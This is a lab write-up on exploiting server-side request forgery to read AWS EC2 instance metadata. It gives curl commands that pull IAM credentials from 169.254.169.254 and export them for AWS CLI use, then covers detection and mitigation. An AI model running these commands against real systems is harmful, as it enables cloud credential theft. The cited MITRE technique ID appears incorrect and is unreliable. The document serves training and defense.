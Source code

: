 # SSRF to AWS Metadata Credential Extraction

Purpose: Demonstrates how to use SSRF to access AWS EC2 instance metadata and extract IAM credentials. Matches lab flows from PwnedLabs and BTLO.

Server-Side Request Forgery (SSRF) is a web application vulnerability that allows an attacker to make arbitrary HTTP requests from a vulnerable server. In cloud environments like AWS, SSRF becomes highly dangerous when used to access the EC2 instance metadata service, which hosts IAM credentials, tokens, and instance information.

This walkthrough demonstrates how an attacker could exploit an SSRF vulnerability in a cloud-hosted web application to access AWS IAM credentials from the metadata API (169.254.169.254). This technique is widely used in real-world cloud breaches and is included in the MITRE ATT&CK framework under T1557.003: Cloud Instance Metadata API.

This lab was conducted in a controlled environment using a simulated SSRF vulnerability hosted in a cloud-based web application. Platform: PwnedLabs / BTLO (Blue Team Labs Online). Target: Web server hosted on AWS EC2 with a curl-based SSRF parameter. Vulnerability: url= parameter that fails to validate input properly. Attacker Access: External user can inject requests via browser or curl. Detection Scope: AWS CloudTrail, web server logs, metadata access attempt. The goal was to simulate an attacker exploiting this SSRF to retrieve IAM credentials from the metadata service, then abuse those credentials using the AWS CLI.

# SSRF injection example – this is a placeholder and will only work in the lab environment
curl 'http://vulnerable-app.local/api/fetch?url=http://169.254.169.254'

curl http://169.254.169.254/latest/meta-data/
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/

curl http://169.254.169.254/latest/meta-data/iam/security-credentials/webapp-role

Expected output:
{
  "AccessKeyId": "...",
  "SecretAccessKey": "...",
  "Token": "...",
  "Expiration": "..."
}

export AWS_ACCESS_KEY_ID="..."
export AWS_SECRET_ACCESS_KEY="..."
export AWS_SESSION_TOKEN="..."

aws sts get-caller-identity

Cloud defenders can detect this behavior using: CloudTrail logs showing unexpected calls to metadata IP from internal apps. Web server logs containing 169.254.169.254 in user-supplied input. VPC Flow logs with outbound connections to the metadata IP. IAM usage logs showing a token suddenly used for unusual services.

Mitigation & Response: Require IMDSv2 (Instance Metadata Service v2) on all EC2 instances. Use strict input validation on all URL parameters. Enforce least privilege for IAM roles assigned to EC2. Log and alert on traffic to the metadata IP range: 169.254.169.254.

Tools Used: curl – For testing SSRF and extracting metadata. AWS CLI – To use the stolen credentials for identity verification. PwnedLabs / BTLO – Simulated cloud lab environment for SSRF testing. CloudTrail / VPC Logs – For detecting post-exploitation artifacts.

References:
https://attack.mitre.org/techniques/T1557/003/
https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html
https://infosecwriteups.com/ssrf-to-aws-credentials-extraction-a-practical-guide-4c1001f8e5d4
